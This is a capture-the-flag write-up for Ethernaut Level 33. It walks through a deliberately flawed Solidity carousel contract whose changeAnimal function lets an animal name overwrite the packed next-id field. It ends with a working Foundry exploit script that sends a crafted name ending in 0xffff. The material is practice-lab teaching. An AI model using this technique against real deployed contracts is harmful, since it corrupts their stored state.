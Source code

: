 # Ethernaut Level 33 MagicAnimalCarousel

---

Contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

contract MagicAnimalCarousel {
    uint16 constant public MAX_CAPACITY = type(uint16).max;
    uint256 constant ANIMAL_MASK = uint256(type(uint80).max) << 160 + 16;
    uint256 constant NEXT_ID_MASK = uint256(type(uint16).max) << 160;
    uint256 constant OWNER_MASK = uint256(type(uint160).max);

    uint256 public currentCrateId;
    mapping(uint256 crateId => uint256 animalInside) public carousel;

    error AnimalNameTooLong();
    error CrateNotInitialized();

    constructor() {
        carousel[0] ^= 1 << 160;
    }

    function setAnimalAndSpin(string calldata animal) external {
        uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
        uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;

        require(encodedAnimal <= uint256(type(uint80).max), AnimalNameTooLong());
        carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);

        currentCrateId = nextCrateId;
    }

    function changeAnimal(string calldata animal, uint256 crateId) external {
        uint256 crate = carousel[crateId];
        require(crate != 0, CrateNotInitialized());
        
        address owner = address(uint160(crate & OWNER_MASK));
        if (owner != address(0)) {
            require(msg.sender == owner);
        }
        uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender); 
        } else {
            // If no animal specified keep same animal but clear owner slot
            carousel[crateId]= (carousel[crateId] & (ANIMAL_MASK | NEXT_ID_MASK));
        }
    }

    function encodeAnimalName(string calldata animalName) public pure returns (uint256) {
        require(bytes(animalName).length <= 12, AnimalNameTooLong());
        return uint256(bytes32(abi.encodePacked(animalName)) >> 160);
    }
}
```

Our goal is to break the carousel. In this carousel, there are three masks defined: `animal_mask`, `next_id_mask`, and `owner_mask`. If we look closer, we can see that in a 32-byte slot, we have first 10 bytes for `animal_mask`, next 2 bytes for `next_id_mask`, and last 20 bytes for `owner_mask`, just like this:

```
0x FF...FF FFFF FF...FF
  |animal |next| owner | 
  |  10   |  2 |  20   | (bytes)
```

So we compress these three into one `carousel[i]`, and apply corresponding mask to it to get the data we want. 

In constructor, we did

```solidity
carousel[0] ^= 1 << 160;
```

Since `x ^ 0 = x`, `carousel[0] = 1 << 160`, it means the 2-byte next id (1) is left shifted to the correct storage area (left 11th - left 12th byte). 

In function `setAnimalAndSpin(string calldata animal)`, we first have to call `encodeAnimalName(animal)`, and in this function, we require that the name of the animal should be shorter than 12 bytes, and in this line:

```solidity
return uint256(bytes32(abi.encodePacked(animalName)) >> 160)
```

We have to first cast the `animalName` to `bytes32`, which puts the `animalName` to the **leftmost** bytes. Then we right shift it 20 bytes to make the 12-byte `animalName` sit at the **rightmost** bytes of a `uint256`. 

Now we go back to function `setAnimalAndSpin(string calldata animal)`. In this first line:

```solidity
uint256 encodedAnimal = encodeAnimalName(animal) >> 16;
```

We right shift the animal name by 2 bytes to make it only 10 bytes long, which is going to fit in the compression scheme (leftmost 10 bytes is for animal name). For next line:

```solidity
uint256 nextCrateId = (carousel[currentCrateId] & NEXT_ID_MASK) >> 160;
```

We basically apply the corresponding mask to `carousel[currentCrateId]` to *extract* the next id from left 11th - left 12th byte, and right shift it 20 bytes to make it sit to the rightmost bytes. Now here comes the most challenging part:

```solidity
carousel[nextCrateId] = (carousel[nextCrateId] & ~NEXT_ID_MASK) ^ (encodedAnimal << 160 + 16)
            | ((nextCrateId + 1) % MAX_CAPACITY) << 160 | uint160(msg.sender);
```

Let's divide it into different parts.

1. Part A: `(carousel[nextCrateId] & ~NEXT_ID_MASK)`. Since `carousel[nextCrateId]` is still 0, it makes this whole part 0.
2. Part B: `(encodedAnimal << 160 + 16)`: We left shift the 10-byte `encodedAnimal` by 22 bytes, so that the animal name can now fit in the compression scheme. 
3. Part C: `((nextCrateId + 1) % MAX_CAPACITY) << 160`: We add the 2-byte `nextCrateId` by 1, and calculate the mod of `MAX_CAPACITY` (0xffff) since we want a round-like carousel structure. At last, we left shift it by 20 bytes.
4. Part D: `uint160(msg.sender)`: This is the 20-byte address of the `msg.sender`, who would be the owner of this animal.

Now, `carousel[nextCrateId] = A ^ B | C | D = B | C | D`. So the final result look like this:

```
encodedAnimal (10 bytes) | nextCrateId (2 bytes) | owner (20 bytes)
```

In function `changeAnimal(string calldata animal, uint256 crateId)`, we can see that after we have the 12-byte `encodedAnimal`, we do not right shift it 2 bytes to make it only 10 bytes long. Instead, in this line:

```solidity
carousel[crateId] =
                (encodedAnimal << 160) | (carousel[crateId] & NEXT_ID_MASK) | uint160(msg.sender)
```

We only left shift the 12-byte `encodedAnimal` by 20 bytes. So, if we call function `changeAnimal(string calldata animal, uint256 crateId)`, the last 2 bytes of the animal name is going to **cover** the 2-byte next id slot!

So the attack strategy is straightforward now: we change the name of an animal with the name whose last 2 bytes is 0xffff. Therefore, we can break this seemingly infinite carousel.

`MagicAnimalCarousel.s.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.28;

import {Script} from "forge-std/Script.sol";
import {MagicAnimalCarousel} from "../src/MagicAnimalCarousel.sol";

contract MagicAnimalCarouselScript is Script {
    MagicAnimalCarousel carousel = MagicAnimalCarousel(0xXXXXXXXXXXXX);

    function run() external {
        vm.startBroadcast();

        // currentCrateId = 1, animal: "Dragon", nextCrateId = 2, owner = msg.sender
        carousel.setAnimalAndSpin("Dragon");

        // Change animal in crateId 1 to hacker, nextCrateId = 65535 (0xffff)
        string memory hacker = string(abi.encodePacked(hex"10000000000000000000ffff"));
        carousel.changeAnimal(hacker, 1);

        // currentCrateId = 65535, animal: "Unicorn", nextCrateId = 0, owner = msg.sender
        carousel.setAnimalAndSpin("Unicorn");


        vm.stopBroadcast();
    }
}
```

Note that, inside hex"", we don't put 0x before the data.